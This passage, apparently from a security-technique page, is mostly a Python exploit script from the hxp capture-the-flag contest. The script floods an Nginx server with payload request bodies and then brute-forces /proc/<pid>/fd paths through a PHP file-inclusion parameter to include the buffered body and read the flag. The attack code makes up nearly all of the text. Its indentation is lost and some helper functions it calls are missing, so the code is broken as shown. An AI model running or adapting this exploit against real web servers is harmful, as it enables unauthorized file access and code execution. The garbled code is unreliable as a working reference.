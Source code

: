 ```python
# Use all CPUs to send the payload as request body for Nginx
for _ in range(multiprocessing.cpu_count()):
p = multiprocessing.Process(target=send_payload_worker, args=(requests_session,))
p.start()

def generate_random_path_prefix(nginx_pids):
# This method creates a path from random amount of ProcFS path components. A generated path will look like /proc/<nginx pid 1>/cwd/proc/<nginx pid 2>/root/proc/<nginx pid 3>/root
path = ""
component_num = random.randint(0, 10)
for _ in range(component_num):
pid = random.choice(nginx_pids)
if random.randint(0, 1) == 0:
path += f"/proc/{pid}/cwd"
else:
path += f"/proc/{pid}/root"
return path

def read_file(requests_session, nginx_pid, fd, nginx_pids):
nginx_pid_list = list(nginx_pids)
while True:
path = generate_random_path_prefix(nginx_pid_list)
path += f"/proc/{nginx_pid}/fd/{fd}"
try:
d = requests_session.get(SERVER + f"/?action=include&file={path}").text
except:
continue
# Flags are formatted as hxp{<flag>}
if "hxp" in d:
print("Found flag! ")
print(d)

def read_file_worker(requests_session, nginx_pid, nginx_pids):
# Scan Nginx FDs between 10 - 45 in a loop. Since files and sockets keep closing - it's very common for the request body FD to open within this range
for fd in range(10, 45):
thread = threading.Thread(target = read_file, args = (requests_session, nginx_pid, fd, nginx_pids))
thread.start()

def read_file_multiprocess(requests_session, nginx_pids):
for nginx_pid in nginx_pids:
p = multiprocessing.Process(target=read_file_worker, args=(requests_session, nginx_pid, nginx_pids))
p.start()

if __name__ == "__main__":
print('[DEBUG] Creating requests session')
requests_session = create_requests_session()
print('[DEBUG] Getting Nginx pids')
nginx_pids = get_nginx_pids(requests_session)
print(f'[DEBUG] Nginx pids: {nginx_pids}')
print('[DEBUG] Starting payload sending')
send_payload_multiprocess(requests_session)
print('[DEBUG] Starting fd readers')
read_file_multiprocess(requests_session, nginx_pids)
```
## Labs
